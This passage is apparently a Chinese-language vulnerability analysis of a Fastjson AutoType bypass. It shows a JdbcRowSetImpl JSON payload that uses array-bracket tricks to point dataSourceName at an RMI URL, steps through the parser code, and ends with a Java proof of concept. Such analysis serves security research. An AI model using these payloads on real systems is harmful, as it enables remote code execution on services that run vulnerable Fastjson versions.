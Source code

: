 ```
{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[,\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}
```

![image-20220302190832481](images/14.png)

在43列的位置希望出现一个`{`

再次更换payload为

```
{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}
```

![image-20220302190933198](images/15.png)

## 漏洞分析

前面依然不变一路跟到了loadClass

![image-20220302191317148](images/16.png)

处理后获取到了我们的利用类，通过`Array.newInstance.getClass()`来实例化

退出来后会到parseObject

![image-20220302191458484](images/17.png)

跟进deserialize，步进到parseArray

![image-20220302191520707](images/18.png)

跟进parseArray

![image-20220302191653722](images/19.png)

这里就是刚才报错的代码了

只要满足他的要求就能绕过

## 漏洞复现

POC

```
package Fastjson.Test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Unser {
    public static void main(String[] argv) throws Exception{
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

